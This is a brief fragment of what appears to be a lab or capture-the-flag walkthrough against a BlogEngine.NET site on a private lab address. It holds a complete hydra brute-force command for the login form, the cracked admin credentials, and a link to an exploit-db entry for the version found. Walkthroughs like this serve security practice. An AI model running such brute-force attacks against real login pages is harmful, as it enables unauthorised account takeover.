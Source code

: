 We can find a login page at http://10.10.45.183/Account/login.aspx?ReturnURL=/admin/

We can brute force with with hydra using 'admin' as username


```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.45.183 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=ZGIcuAqu68X9ZUhhyKG1HNKFogXnvdZKhK9UhLDrA1%2BgGMrAK4c3POLnTClHtde8mW3WGWoIsPnimyFHLqesS9dKYi3KCfl2N4GhE4nx2ba%2FtHxiBJVVFsGhqswT%2F4LSCn52IgY%2BDSR59abFCW8u9eP9MW6Un3IiE63pHXuF2b%2Bpc93foFBWMS02ktfS7BzE8UBgU1Va69Zbj%2F7Syadib1cuK1NA8VsCB2iHfkQXUGupU0dg6ZmR1X3fLFC9Ax5XgSgvKpcxGhr74TE4suX852iChdEGnKGQwB%2BxCmAw6a7t0dXZpeo7dW92xPnSdtOiUzk%2Fj4w7NPK%2B1QSEuHCHulho1ZHd5qK2%2BybOsjjKCM82HZTc&__EVENTVALIDATION=8xce1nP%2Beq03DHDevvD8g5zC2dzi%2Fpxl85NW%2BJMm%2FX4cPjLLglabvFmdsRzdZNRYSR5DQtPlc3ejO2e00lCu0oKRCvbSXbxXd%2B5ftDILG33ak9kjDnN3XUda5LAnU7bKwdGDrVWJZ0S6ztBrUNeZWXSMy7xTDqWK5WoUyQk1fn%2B9KV1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

We find our password and log into the website:
`login: admin   password: 1qaz2wsx`


---

We enumerate blogengine.net version number by going to the ABOUT page and find this CVE:

https://www.exploit-db.com/exploits/46353

---

